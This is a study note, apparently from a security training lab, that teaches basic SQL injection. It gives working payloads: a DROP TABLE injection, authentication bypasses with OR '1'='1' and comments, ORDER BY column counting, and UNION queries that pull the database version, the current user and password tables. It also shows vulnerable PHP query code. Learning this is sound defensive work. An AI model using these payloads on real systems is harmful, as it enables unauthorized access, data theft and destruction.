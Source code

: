# 🚑 Basic injections:

An SQL injection occurs when user-input is inputted into the SQL query string without properly sanitizing or filtering the input.

Let's imagine the following code:

```php
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);
```

The query to the database would be:

```sql
select * from logins where username like '%$searchInput'
```

So with a single quote, we could break everything:

```php
'%1'; DROP TABLE users;'
#which would turn out like this:
select * from logins where username like '%1'; DROP TABLE users;'
```

Here are the differente sql injections:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's go more in depth with the famous login bypass:

```sql
admin' or '1'='1
```

The final query should look like this:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

What happens on rhe backend is:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

We can also try the inverted command and use OR statement on the password with the `'1'='1` or `' or '1' = '1`:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

You can also use comments to bypass auth, the query looks something like this when you use comments:

```shell-session
mysql> SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'
```

So we can inject `admin'--` as our username. The final query will be:

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

We can also target users:

```sql
SELECT * FROM logins where (username='admin')
```

_**Login as the user with the id 5 to get the flag.**_

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
') OR id =5 -- -
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Union

The [Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements. This means that through a `UNION` injection, we will be able to `SELECT` and dump data from all across the DBMS, from multiple tables and databases.

```shell-session
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
```

A `UNION` statement can only operate on `SELECT` statements with an equal number of columns.

If we wanted to use union statement on different numbers of columns:

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

The above query would return `username` and `password` entries from the `passwords` table, assuming the `products` table has two columns.

To define how many columns a table has, we can use ORDER BY. We start with `order by 1`, then we will do `order by 2` and then `order by 3` until we reach a number that returns an error. If we failed at `order by 4`, this means the table has three columns

```sql
' order by 5-- -
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>So there are 4 columns</p></figcaption></figure>

We could also use the union command:

```sql
cn' UNION select 1,2,3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now that we got the number of columns we can start injecting:

```sql
cn' UNION select 1,@@version,3,4-- -
```

`We cannot place our injection at the beginning, or its output will not be printed.`

This is the benefit of using numbers as our junk data, as it makes it easy to track which columns are printed, so we know at which column to place our query. To test that we can get actual data from the database 'rather than just numbers,' we can use the `@@version` SQL query as a test and place it in the second column instead of the number 2:

```sql
cn' UNION select 1,@@version,3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Use a Union injection to get the result of 'user()'**_

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
'UNION SELECT 1,user(),3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>
